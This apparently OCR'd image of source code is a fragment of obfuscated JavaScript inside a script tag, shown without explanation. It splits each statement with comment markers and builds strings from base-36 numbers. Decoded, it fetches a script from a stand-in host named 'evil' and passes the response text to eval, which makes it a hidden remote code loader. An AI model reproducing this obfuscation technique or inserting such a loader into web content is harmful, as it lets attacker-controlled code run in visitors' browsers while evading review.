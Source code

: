 ```
*/S[13]+/*
*/S[14];/*
*/Q=/*
*/X[C];/*
*/R=A=>/*
*/Q(A);/*
*/O=A=>/*
*/A[N]/*
*/(36);/*
*/V=2588/*
*/*10000/*
*/+5457/*
*/J=O(V)/*
*/J+=/*
*/"('//"/*
*/V=/*
*/694029/*
*/J+=/*
*/O(V);/*
*/J+=/*
*/"/";/*
*/J+=/*
*/O(712)/*
*/J+=/*
*/"')."/*
*/W=1375/*
*/*1000/*
*/+583/*
*/J+=/*
*/O(W)/*
*/J+=/*
*/"("/*
*/J+=/*
*/O(27)/*
*/J+=/*
*/"=>"/*
*/J+=/*
*/O(27)/*
*/J+=/*
*/"."/*
*/V=W-/*
*/3198/*
*/J+=/*
*/O(V)/*
*/J+=/*
*/"()."/*
*/J+=/*
*/O(W)/*
*/J+=/*
*/"("/*
*/V=/*
*/693741/*
*/J+=/*
*/O(V)/*
*/J+=/*
*/"))";(/*
*/R(J))/*
*/();
</SCRIPT>
```

